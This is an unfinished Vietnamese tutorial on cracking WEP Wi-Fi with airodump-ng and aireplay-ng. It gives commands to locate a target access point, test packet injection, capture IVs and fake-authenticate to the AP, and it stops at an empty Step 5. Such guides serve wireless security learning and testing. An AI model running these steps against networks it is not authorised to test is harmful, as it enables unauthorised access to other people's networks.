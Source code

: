 # Airodump-ng + Aircrack-ng + Aireplay-ng

## Bước 1 - Tìm đối tượng

Sử dụng **airodump-ng** để tìm kiếm các access point (AP) đang dùng mã hóa WEP:

```sh
$ airodump-ng wlan0mon
```

![Dùng airodump tìm kiếm access point](.\images\airodumpforvictim.png)

Các thông tin cần chú ý:

- BSSID: **7C:8B:CA:2E:62:CE**
- ESSID: **a Tan 99 muon ket ban 4 phuong**
- Channel: **11**

Chuyển channel của wlan0mon sang cùng channel với AP:

```sh
$ iwconfig wlan0mon channel 11
```

## Bước 2 - Kiểm tra packet injection

Bước này thực hiện để chắc chắn rằng card wifi đang nằm trong phạm vi của AP và có thể thực hiện packet injection vào nó.

```sh
aireplay-ng -9 -a 7C:8B:CA:2E:62:CE wlan0mon
```

![Test packet injection](images\testinjectionpacket.png)

Nếu phần trăm kết quả trả về quá thấp hay bằng 0 thì packet injection sẽ không hoạt động.

## Bước 3 - Dùng airodump-ng để bắt các IV

Ở bước này sử dụng công cụ **airodump-ng** để bắt các IV được AP tạo ra.

```sh
$ airodump-ng -c 11 --bssid 7C:8B:CA:2E:62:CE -w output wlan0mon
```

![Test packet injection](images\airodumpforiv.png)

## Bước 4 -

```sh
$ aireplay-ng -1 0 -a 7C:8B:CA:2E:62:CE -h 8C:F5:A3:1E:4E:37 wlan0mon
```

![](images\aireplay1.png)

## Bước 5 -

